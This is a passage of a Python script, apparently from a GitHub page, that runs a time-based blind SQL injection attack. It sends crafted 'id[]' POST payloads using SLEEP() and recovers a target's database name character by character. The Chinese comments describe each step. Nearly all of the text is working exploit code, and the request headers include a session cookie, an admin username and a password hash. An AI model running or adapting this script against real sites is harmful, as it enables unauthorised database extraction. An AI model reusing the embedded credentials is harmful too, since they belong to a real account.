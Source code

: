 ```
        "Cookie": "__51cke__=; PHPSESSID=1lgihann99he0kns9hofshtqll; UserName=admin1; PassWord=e00cf25ad42683b3df678c61f42c6bda; __tins__713776=%7B%22sid%22%3A%201758106876159%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201758109216370%7D; __51laig__=5",
        "Connection": "keep-alive",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    # 已知数据库名长度为5
    db_length = 5
    db_name = ""
    
    print(f"[*] 开始猜解数据库名，已知长度为: {db_length}")
    
    # 对每个位置进行猜解
    for position in range(1, db_length + 1):
        print(f"[*] 猜解第 {position} 个字符...")
        
        # 尝试ASCII值从32到126（可打印字符）
        for ascii_val in range(32, 127):
            # 构造Payload - 使用ASCII值比较
            payload = f"id[]=1,2) AND (SELECT 7945 FROM (SELECT(IF(ASCII(SUBSTRING(DATABASE(),{position},1))={ascii_val},SLEEP(2),0)))dhiC) AND (9082=9082"
            
            # 记录请求开始时间
            start_time = time.time()
            
            try:
                # 发送POST请求
                response = requests.post(
                    url,
                    headers=headers,
                    data=payload,
                    timeout=3  # 设置超时时间略大于SLEEP时间
                )
                # 计算请求耗时
                elapsed_time = time.time() - start_time
                
                # 如果响应时间超过2秒，说明字符猜解正确
                if elapsed_time >= 2:
                    char = chr(ascii_val)
                    db_name += char
                    print(f"[+] 第 {position} 个字符为: {char} (ASCII: {ascii_val}) | 当前数据库名: {db_name}")
                    break
                    
            except requests.exceptions.Timeout:
                # 超时异常，说明字符猜解正确
                char = chr(ascii_val)
                db_name += char
                print(f"[+] 第 {position} 个字符为: {char} (ASCII: {ascii_val}) | 当前数据库名: {db_name}")
                break
                
            except Exception as e:
                print(f"[-] 请求出错: {e}")
                continue
    
    print(f"[+] 数据库名猜解完成: {db_name}")
    return db_name

if __name__ == "__main__":
    exploit_time_based_blind_sql()
```
